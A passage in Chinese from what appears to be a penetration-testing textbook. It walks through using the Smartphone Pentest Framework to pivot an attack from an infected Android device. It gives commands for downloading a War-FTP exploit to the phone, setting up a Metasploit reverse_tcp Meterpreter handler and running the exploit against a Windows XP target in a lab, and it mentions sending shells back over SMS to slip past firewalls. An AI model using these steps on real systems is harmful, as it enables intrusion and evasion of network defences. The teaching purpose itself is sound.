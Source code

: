 选择`1.) 为 ARM Android 编译 C 代码` ❶。系统会提示你选择要编译的 C 文件以及要保存编译后的二进制文件的位置 ❷。

现在，我们需要将 War-FTP 漏洞利用下载到我们的感染了的 Android 设备上。从代理命令菜单中，选择**`6`**选项下载文件。系统会询问你要下载的文件以及下载方法，如示例 20-24 所示。

示例 20-24. 下载漏洞利用

```
Select a command to perform or 0 to return to the previous menu
spf> **6**

    Downloads a file to the phone. Fill in the file and the delivery method(SMS or HTTP).
File to download: **/root/Smartphone-Pentest-Framework/exploits/Windows/warftpmeterpreter**
Delivery Method(SMS or HTTP): **HTTP**
```

在运行漏洞利用之前，我们需要在 Msfconsole 中设置一个处理程序，如示例 20-25 所示。在 Kali 中打开 Msfconsole，使用*multi/handler*模块，并将选项设置为与 War-FTP 漏洞利用中的载荷相匹配。

示例 20-25. 设置 multi/handler

```
msf > **use multi/handler**
msf exploit(handler) > **set payload windows/meterpreter/reverse_tcp**
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > **set LHOST 192.168.20.9**
LHOST => 192.168.20.9
msf exploit(handler) > **exploit**

[*] Started reverse handler on 192.168.20.9:4444
[*] Starting the payload handler...
```

最后，到了运行漏洞利用的时候。如示例 20-26 所示，选择代理命令菜单中的`7.) 执行命令`选项；系统会提示你输入要运行的命令。

示例 20-26. 运行漏洞利用

```
Select a command to perform or 0 to return to the previous menu
spf> **7**

    Run a command in the terminal. Fill in the command and the delivery method(SMS or HTTP).

Command: **warftpmeterpreter 192.168.20.10 21**❶
Downloaded?: **yes**❷
Delivery Method(SMS or HTTP): **HTTP**
```

告诉 SPF 完整的命令，包括参数❶。在这种情况下，我们需要告诉漏洞攻击的 IP 地址和端口。SPF 会询问二进制文件是否已下载。如果是通过 SPF 下载的，它会在代理的文件目录中，SPF 需要知道从那里运行它。在我们的案例中，我们回答**`yes`** ❷，然后像往常一样输入传输方法。

观察你的 Metasploit 监听器。在大约一分钟后，你应该会看到一个 Meterpreter 提示符，如下所示。

```
meterpreter >
```

我们成功地使用了 SPF 作为攻击的枢纽。虽然这看起来不太令人兴奋，因为模拟器、Kali 和 Windows XP 目标都在同一网络中，但如果 Kali 在云端，而 Windows XP 目标和一个感染的 Android 设备在公司网络中，这个过程将会更有用。我们可以通过使用命令选项`10.) TCP Listener`来设置监听器，在感染的移动设备上捕获我们的 Shell。我们可以不再调用 Kali 机器上的监听器，而是直接通过 HTTP 或 SMS 将 Shell 发送回 SPF。使用 SMS 当然可以让我们完全绕过任何可能阻止攻击者从网络中获取 Shell 的外围过滤，比如防火墙和代理。此过程如图 20-5 所示。
